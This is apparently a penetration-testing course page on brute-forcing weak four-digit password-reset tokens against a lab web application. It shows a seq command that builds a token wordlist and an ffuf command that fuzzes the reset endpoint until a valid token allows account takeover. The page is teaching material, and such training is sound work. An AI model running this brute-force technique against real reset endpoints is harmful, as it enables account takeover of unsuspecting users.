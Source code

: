 
Many web applications implement a password-recovery functionality if a user forgets their password. This password-recovery functionality typically relies on a one-time reset token, which is transmitted to the user, for instance, via SMS or E-Mail. The user can then authenticate using this token, enabling them to reset their password and access their account.

As such, a weak password-reset token may be brute-forced or predicted by an attacker to take over a victim's account.

_________________
## Identifying Weak Reset Tokens

Reset tokens (in the form of a code or temporary password) are secret data generated by an application when a user requests a password reset. The user can then change their password by presenting the reset token.

Since password reset tokens enable an attacker to reset an account's password without knowledge of the password, they can be leveraged as an attack vector to take over a victim's account if implemented incorrectly. Password reset flows can be complicated because they consist of several sequental steps; a basic password reset flow is shown below:

![image](https://academy.hackthebox.com/storage/modules/269/bf/reset_bf_1.png)

To identify weak reset tokens, we typically need to create an account on the target web application, request a password reset token, and then analyze it. In this example, let us assume we have received the following password reset e-mail:

```
Hello,

We have received a request to reset the password associated with your account. To proceed with resetting your password, please follow the instructions below:

1. Click on the following link to reset your password: Click

2. If the above link doesn't work, copy and paste the following URL into your web browser: http://weak_reset.htb/reset_password.php?token=7351

Please note that this link will expire in 24 hours, so please complete the password reset process as soon as possible. If you did not request a password reset, please disregard this e-mail.

Thank you.
```

As we can see, the password reset link contains the reset token in the GET-parameter `token`. In this example, the token is `7351`. Given that the token consists of only a 4-digit number, there can be only `10,000` possible values. This allows us to hijack users' accounts by requesting a password reset and then brute-forcing the token.

---

## Attacking Weak Reset Tokens

We will use `ffuf` to brute-force all possible reset tokens. First, we need to create a wordlist of all possible tokens from `0000` to `9999`, which we can achieve with `seq`:

  Brute-Forcing Password Reset Tokens

```shell-session
Pangulin@htb[/htb]$ seq -w 0 9999 > tokens.txt
```

The `-w` flag pads all numbers to the same length by prepending zeroes, which we can verify by looking at the first few lines of the output file:

  Brute-Forcing Password Reset Tokens

```shell-session
Pangulin@htb[/htb]$ head tokens.txt

0000
0001
0002
0003
0004
0005
0006
0007
0008
0009
```

Assuming that there are users currently in the process of resetting their passwords, we can try to brute-force all active reset tokens. If we want to target a specific user, we should send a password reset request for that user first to create a reset token. We can then specify the wordlist in `ffuf` to brute-force all active reset-tokens:

  Brute-Forcing Password Reset Tokens

```shell-session
Pangulin@htb[/htb]$ ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"

<SNIP>

[Status: 200, Size: 2667, Words: 538, Lines: 90, Duration: 1ms]
    * FUZZ: 6182
```

By specifying the reset token in the GET-parameter `token` in the `/reset_password.php` endpoint, we can reset the password of the corresponding account, enabling us to take over the account:

   

![](https://academy.hackthebox.com/storage/modules/269/bf/reset_bf_2.png)